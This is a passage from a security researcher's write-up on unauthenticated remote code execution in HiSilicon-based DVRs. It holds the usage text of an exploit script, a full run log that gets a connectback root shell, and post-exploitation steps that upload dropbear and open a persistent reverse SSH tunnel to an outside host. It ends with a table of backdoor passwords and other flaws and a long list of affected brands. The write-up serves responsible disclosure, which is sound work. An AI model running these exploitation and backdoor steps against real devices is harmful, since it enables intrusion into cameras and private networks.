        smaps[t][1][1] == 4 and smaps[t+1][1][1] == 4 and smaps[t+2][1][1] == 4 and smaps[t+3][1][1] >= 8 and smaps[t+4][1][1] >= 4 and smaps[t+5][1][1] >= 4 and smaps[t+6][1][1] >= 8:
            return (t+3)
    return (-1)
----

where `smaps[t][1][0]` is the size of the `t`-th full page,
`smaps[t][1][1]` is the related RSS.

The snippet is part of the full exploit script which is working
automatically against various ASLR enabled HiSilicon targets. For a
brief intro about the script:

----
$ ./pwn_hisilicon_dvr.py -h
usage: pwn_hisilicon_dvr.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST
                            [--lport LPORT] [--bhost BHOST] [--bport BPORT]
                            [-n] [-i] [-p] [-u] [--offset OFFSET]
                            [--cmdline CMDLINE]

exploit HiSilicon DVR devices

optional arguments:
  -h, --help         show this help message and exit
  --rhost RHOST      target host
  --rport RPORT      target port
  --lhost LHOST      connectback ip
  --lport LPORT      connectback port
  --bhost BHOST      listen ip to bind (default: connectback)
  --bport BPORT      listen port to bind (default: connectback)
  -n, --nolisten     do not start listener (you should care about connectback
                     listener on your own)
  -i, --interactive  select stack memory region interactively (rather than
                     using autodetection)
  -p, --persistent   make connectback shell persistent by restarting dvr app
                     automatically (DANGEROUS!)
  -u, --upload       upload tools (now hardcoded "./tools/dropbear" in script)
                     after pwn
  --offset OFFSET    exploit param stack offset to mem page base (default:
                     0x7fd3d8)
  --cmdline CMDLINE  cmdline of Sofia binary on remote target (default
                     "/var/Sofia")
----


=== post-exploitation

What can we do with this RCE? Everything. Remember, that this is an
unauthorized RCE which only uses the web service port 80/tcp. This port
is commonly forwarded to outside, so if an attacker exploits this RCE,
he/she gets access to the internal LAN.

Our exploit script has some nice features, such as it can upload
(previously compiled) tools to the victim device.

If we want to make a persistant, stable backdoor, we may upload a
Dropbear, make it listen locally, and open a reverse SSH tunnel to
outside. With this architecture, it will be possible to login to the DVR
device from anywhere, anytime.

----
$ ./pwn_hisilicon_dvr.py --rhost 192.168.88.127 --lhost 192.168.88.100 -p -u
[*] target is 192.168.88.127:80
[*] connectback on 192.168.88.100:31337
[+] assembling shellcode: done. length is 104 bytes
[+] identifying model number: MBD6804T-EL
[*] exploiting dir path traversal of web service to get leak addresses
[+] getting pidlist: found 35 processes
[+] searching for PID of '/var/Sofia': 610
[+] getting stack section base: 0x5a47a000
[*] shellcode address is 0x5ac773ec
[*] exploiting buffer overflow in web service url path
[*] remote shell should gained by connectback shellcode!
[+] Trying to bind to 192.168.88.100 on port 31337: Done
[+] Waiting for connections on 192.168.88.100:31337: Got connection from 192.168.88.127 on port 44330
[+] Opening connection to 192.168.88.127 on port 80: Done
[+] Receiving all data: Done (204B)
[*] Closed connection to 192.168.88.127 port 80
[+] restarting dvr application: Done
[+] uploading tools to /var/.tools: dropbear
[*] Switching to interactive mode
$ cd /var/.tools
$ ln -s dropbear ssh
$ ln -s dropbear dropbearkey
$ ./dropbearkey -t ecdsa -f dropbear_ecdsa.key -s 256
Generating key, this may take a while...
Public key portion is:
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDMcXlCTZfC3ZskLdbjfUSkDvcZCrKd/t8a3ftsfL2EkHlQ/faElTfzACkM8ETw1Z1CH0iLXMznxqzZ4PvvJOk0= root@LocalHost
Fingerprint: md5 55:5e:4c:df:9c:89:4c:cd:2c:47:85:52:ff:5b:b7:48
$ ./dropbear -r ./dropbear_ecdsa.key -p 127.0.0.1:22
$ ln -s dropbear dropbearconvert
$ cat <<EOF > id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
...
...
-----END RSA PRIVATE KEY-----
$ ./dropbearconvert openssh dropbear id_rsa id_rsa.dropbear
$ ./ssh -i ./id_rsa.dropbear -N -f -T -R 2322:localhost:22 dropbear@192.168.88.100
----

Now the device is accessible through the reverse tunnel using SSH:

----
$ ssh -p2322 root@localhost
root@localhost's password: 


BusyBox v1.16.1 (2013-07-18 14:40:04 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

Welcome to Monitor Tech.
[root@LocalHost /]$ 
----


== summary

Here are the documented vulnerabilities:

[cols="2,1,1,1,4",options="header",]
|=======================================================================
|vulnerability |risk |service |discovered |impact
|hard-coded (backdoor) telnet password |high |23/tcp |formerly by others
|everyone who has access to the telnet interface can take full control
of the device, even though the user sets suitable passwords

|root shell access with any application account |high |9527/tcp |by the
author |everyone who has any kind of application account and has access
to the service console, can elevate privileges up to full (shell)
control of the device

|*backdoor application password* |critical |80/tcp, 554/tcp |by the
author |anyone can access the device as the application admin, even
though the user has set up strong passwords in order to protect the
device

|*buffer overflow in the builtin webserver* |critical |80/tcp |by the
author |exploiting the buffer overflow the attacker can gain root remote
code execution on the device (no auth required), install backdoors,
malwares, other malicious stuff

|directory traversal |high |80/tcp |formerly by others(?) and by the
author |unauthorized read access to everything (e.g. recorded streams)
on the device, also helps exploiting the buffer overflow
|=======================================================================

If someone thinks that only this "Seculink" branded device is affected
by these serious vulnerabilities, it is wrong. The range of the affected
devices is very large. Every device is vulnerable built with these kind
of HiSilicon SoC hardware. These devices share (almost) the same
firmware with this binary application called "Sofia". The above
vulnerability (even the full-featured script) works almost reliably
without modification on a lot of different hardwares.

Here is a (not complete) list of brands affected:

image::./brands_affected.png[brands affected]

http://www.vacron.com/products_CCTV_dvr.html +
http://www.gess-inc.com/gess/dvrs/ +
http://www.jufenginfo.com/en/product-list.php?cid=10&pid=166&parid=175 +
http://egpis.co.kr/egpis/product.php?category=AHD&category2=AHD_D +
http://optimus-cctv.ru/catalog/ahd-videoregistratory +
http://www.clearcftv.com.br/linha.php?l=5&ln=ahd +
http://click-cam.com/html2/products.php?t=2 +
http://www.ccd.dn.ua/ahd-videoregistratory.html +
http://www.dhssicurezza.com/tvcc-ahd/dvr-ahd-720p/ +
http://www.gigasecurity.com.br/subcategoria-gravadores-de-video-dvr +
http://www.luxvision.com.br/category/dvr-ahd/ +
http://www.yesccd.com/?products/DigitalVideoRecorder.html +
http://www.tvzsecurity.com.br/produtos/31/Stand-Alone +
http://showtec.com.br/dv-stand-alone/ +
http://www.ecotroniccftv.com.br/index.php +
http://starligh.com/cctv/grabadoras.html +
http://www.activepixel.us/ap-0404-ahd.html +
http://j2000.ru/cat/DVR/ +
http://partizan.global/product/ahd-video-surveillance/ahd-dvrs.html +
http://kenik.pl/index.php/tag/rejestrator/ +
http://www.redebsd.com.br/categoria-25-gravacao-digital +
http://www.idvr.com.br/produtos-index/categorias/2374896/dvr___ahd_lancamento.html +
http://www.visagems.com.br/prd.asp?idP=1119575 +
http://www.braskell.com.br/dvr.html +
http://www.segvideo.com/segvideo/nvr-hvr.html +
http://www.neocam.com.br/cameras-cftv/stand-alone +
http://www.venetian.com.br/categoria/dvr-hvr-04-canais/ +
http://www.cctvkits.co.uk/oyn-x-orpheus-hdtvi-4-channel-dvr-1080p.html +
http://ecopower-brasil.com/produto/DVR-HSBS-HSBS%252d3604.html +
http://www.vixline.com.br/vitrine-de-produtos/dvrs/ +
http://aliveelectronics.com.br/category/gravadores-de-video/ +
http://www.issl.com.hk/CCTV_DVRCYVIEW1.htm +
http://idview.com/IDVIEW/Products/DVR/dvr-Analog.html +
http://www.vonnic.ca/products376e.html?cat=13 +
http://polyvision.ru/polyvision/catalog_gibridnye.html +
http://altcam.ru/video/hd-videonabludenie/ +
http://cyfron.ru/catalog/dvr/ +
http://www.t54.ru/catalog/videoregistratory/ahd_analogovye_registratory/ +
http://www.hiview.co.th/index.php?mo=3&art=42195125 +
http://www.kkmoon.com/usb-fan-271/p-s413-uk.html +
http://qvisglobal.com/ahd-tvi-960h-hybrid +
https://www.beylerbeyiguvenlik.com.tr/kayitcihazlari-beylerbeyi.html +
http://www.novicam.ru/index.php?route=product/product&product_id=429 +
http://www.espuk.com/uploads/catalogue/HDview%20catalogue%202015.pdf +
http://www.ebay.com/itm/SNOWDON-8-CHANNEL-PROFESSIONAL-CCTV-NETWORK-DVR-MACHINE-SYSTEM-H-264-1TB-500GB-/172250300884 +
http://giraffe.by/catalog/tsifrovye-videoregistratory +
http://www.winpossee.com/en/list/?17_1.html +
http://tesamed.com.pl/rejestrator-cyfrowy-vtv-n-1016-vtvision-dvr-16-kanalowy-p-532.html +
http://hiq-electronics.ru/videoregistratory +
http://www.eltrox.pl/catalogsearch/result/?q=easycam+rejestrator&order=v_117002&dir=desc +
http://www.x5tech.com.tr/?cmd=UrunListe&GrupNo=265&t=0 +
http://bigit.ro/dvr-16-canale-hybrid-full-d1-asrock-as-616tel.html +
http://secur.ua/videonablyudenie/ustroystva-zapisi/dvr/?brand_vreg=1557 +
http://www.divitec.ru/videoregistratoryi-divitec-idvr/

In general, it can be said that these kind of cheap IoT devices are
security nightmares. Every device tested recently by the author had some
serious or critical vulnerability. From a pentester's point of view the
recommendation is that these kind of devices must be separated well,
these kind of devices must not share the same network with important,
confidential data. Unfortunately there is no real chance to get updates
with patches for such firmwares.

Finally, it is important to tell that this buffer overflow vulnerability
(with the exploit PoC code) had been disclosed through the
https://www.beyondsecurity.com/ssd.html[SecuriTeam Secure Disclosure]
(SSD) program of https://www.beyondsecurity.com/[Beyond Security]. The
vendor (HiSilicon) had been notified (by Beyond Security) at the end of
2016, but there was no reply before the vulnerability had been released
to public (it is a common thing, unfortunately).

The released disclosure from Feb 2017 is available
https://ssd-disclosure.com/ssd-advisory-hisilicon-multiple-vulnerabilities/[here].

*UPDATE (2023-01-01):* This research is referenced by https://vulncheck.com/[VulnCheck]
(on 2022-11-30) in this article about pwning Xiongmai devices
by https://twitter.com/Junior_Baines[Jacob Baines]:
https://vulncheck.com/blog/xiongmai-iot-exploitation
